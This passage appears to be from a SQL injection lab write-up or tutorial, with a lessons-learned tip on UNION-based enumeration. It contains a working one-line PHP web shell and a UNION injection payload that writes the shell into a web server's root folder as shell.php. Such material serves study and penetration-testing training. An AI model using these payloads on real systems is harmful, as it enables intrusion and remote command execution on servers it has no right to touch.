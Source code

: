 Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```


## Lessons Learned
**Union Based common mistake:** when enumerating db, before the injection, make sure to input an not existing value on the real parameter, example: `/users=0 UNION SELECT ...`, where 0 doesn't exist in the db.
